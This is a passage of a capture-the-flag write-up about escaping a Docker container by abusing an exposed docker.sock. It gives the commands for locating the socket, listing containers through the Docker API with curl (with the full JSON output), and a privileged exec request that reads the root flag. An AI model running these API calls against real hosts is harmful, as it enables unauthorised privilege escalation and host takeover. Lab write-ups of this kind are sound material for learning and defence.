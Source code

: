 In this machine the Linux kernel is vulnerable to a few exploits but we also find that we are in a 
container. But we can't run any docker commands as we don't have access to docker binaries. There are also 
no SUID binaries we can exploit. My next step was to begin researching about containers which are a type of 
virtualization. I read if we have access to the docker.sock daemon we can use that to elevate our 
privileges and escape out of the container.


1. To find out where the docker.sock daemon is located we use this command: ```  find / -name docker.sock 2>/dev/null  ```

2. There are two ways to proceed. While researching I came across an article that walks you through how to communicate with the docker.sock daemon using curl. After completing this machine I found out from another user that I could have bypassed this step and used the last step to escape out of the container and gain access or elevated privileges to the host file system to then read both root.txt flags. I'm going to show you both ways and include the blog that helped me use curl to get the first root.txt flag. I will also include the blog of the user that helped me in understanding this process. He does an awesome job of walking us through this. His way is simpler and to the point. I would recommend following the second way which gives us both root.txt flags and simplifies the entire process.

3. Following this blog: https://dejandayoff.com/the-danger-of-exposing-docker.sock/ will walk us through using the curl command to read the first root.txt flag.

4. Using curl we can list all images by issuing this command: ```  curl -i -s -X GET http://<docker_host>:PORT/containers/json  ```

    - Which gives us this result:

    ```bash
    ["Id":"3aca3900a312d70b576f0a86856612f8312ad03df5ae14dacb54439b52eafd31","Names":          ["/sweettoothinc"],"Image":"sweettoothinc:latest","ImageID":"sha256:26a697c0d00f06d8ab5cd16669d0b4898f6ad2c19c73c8f5e27231596f5bec5e","Command":"/bin/bash -c 'chmod a+rw /var/run/docker.sock && service ssh start & /bin/su uzJk6Ry98d8C -c '/initializeandquery.sh & /entrypoint.sh influxd''","Created":1627359591,"Ports":[{"IP":"0.0.0.0","PrivatePort":22,"PublicPort":2222,"Type":"tcp"},{"IP":"0.0.0.0","PrivatePort":8086,"PublicPort":8086,"Type":"tcp"}],"Labels":{},"State":"running","Status":"Up About an hour","HostConfig":{"NetworkMode":"default"},"NetworkSettings":{"Networks":{"bridge":{"IPAMConfig":null,"Links":null,"Aliases":null,"NetworkID":"d941570cec4dfc6c39532d4d875bcbdee64a3831e147c75b6167c481bcaf7d67","EndpointID":"bb07c60829d249c61aae7da7dba8fbe3a7738af7a7297d53a26f02787a8240ef","Gateway":"172.17.0.1","IPAddress":"172.17.0.2","IPPrefixLen":16,"IPv6Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"MacAddress":"02:42:ac:11:00:02","DriverOpts":null}}},"Mounts":[{"Type":"volume","Name":"80ed8feaaed22a73f8debc5905c2af290e39c5e8cd997047bdab5b0b61c67493","Source":"","Destination":"/var/lib/influxdb","Driver":"local","Mode":"","RW":true,"Propagation":""},{"Type":"bind","Source":"/var/run/docker.sock","Destination":"/var/run/docker.sock","Mode":"","RW":true,"Propagation":"rprivate"}]}]

 
    ```

5. Next we run another curl command to the docker.sock dameon using exec which executes our command to cat open the first root.txt, you need the id from the command above:

    ```bash

   curl -i -s -X POST \
   -H "Content-Type: application/json" \
   --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/root/root.txt"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' \
   http://localhost:8080/containers/3aca3900a312d70b576f0a86856612f8312ad03df5ae14dacb54439b52eafd31/exec
